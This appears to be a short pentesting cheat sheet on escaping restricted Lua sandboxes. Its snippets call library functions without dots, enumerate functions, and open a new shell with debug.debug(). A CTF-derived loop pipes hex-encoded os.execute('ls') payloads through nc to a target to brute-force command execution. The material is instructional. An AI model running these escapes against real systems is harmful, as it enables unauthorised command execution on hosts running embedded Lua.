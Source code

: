 Some tricks to call functions of a library without using dots:

```
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

Enumerate functions of a library:

```
for k,v in pairs(string) do print(k,v) end
```

Note that every time you execute the previous one liner in a different lua environment the order of the functions change. Therefore if you need to execute one specific function you can perform a brute force attack loading different lua environments and calling the first function of le library:

```
#In this scenario you could BF the victim that is generating a new lua environment 
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

Get interactive lua shell: If you are inside a limited lua shell you can get a new lua shell (and hopefully unlimited) calling:

```
debug.debug()
```

 (Slides: )
